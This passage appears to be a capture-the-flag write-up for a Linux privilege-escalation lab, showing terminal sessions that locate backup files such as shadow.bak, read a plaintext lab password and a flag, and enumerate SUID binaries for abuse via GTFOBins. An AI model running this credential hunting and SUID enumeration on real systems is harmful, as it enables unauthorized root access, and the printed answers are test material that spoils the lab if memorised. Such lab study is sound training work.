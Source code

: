 manager@py:~$ find /* -type f -name "*.bak" 2>/dev/null
find /* -type f -name "*.bak" 2>/dev/null
/var/opt/passwords.bak
/var/backups/shadow.bak
/var/backups/passwd.bak
/var/backups/gshadow.bak
/var/backups/group.bak
manager@py:~$ cat /var/opt/passwords.bak
cat /var/opt/passwords.bak
THMSkidyPass

```
### > A) THMSkidyPass


### 2) Did you find a flag?

- Use this command to find all the .conf files 
- find /* -type f -name "*.conf" 2>/dev/null
- i found it in th /etc/sysconf/flag.conf

```
manager@py:~$ cat /etc/sysconf/flag.conf
cat /etc/sysconf/flag.conf
# Begin system conf 1.1.1.0
## Developed by Swafox and Chad

flag: thm{conf_file}
manager@py:~$ 

```



## Task 7 : Unit 4 - SUID


- Set User ID (SUID) is a type of permission that allows users to execute a file with the permissions of another user.Those files which have SUID permissions run with higher privileges.  Assume we are accessing the target system as a non-root user and we found SUID bit enabled binaries, then those file/program/command can be run with root privileges. 

- SUID abuse is a common privilege escalation technique that allows us to gain root access by executing a root-owned binary with SUID enabled.

- You can find all SUID file by executing this simple find command:

` find / -perm -u=s -type f 2>/dev/null`

- -u=s searches files that are owned by the root user.
- -type f search for files, not directories

After displaying all SUID files, compare them to a list on GTFObins to see if there's a way to abuse them to get root access. 

```
manager@py:~$ find / -perm -u=s -type f 2>/dev/null
find / -perm -u=s -type f 2>/dev/null
/bin/su
/bin/grep
/bin/ntfs-3g
/bin/mount
/bin/ping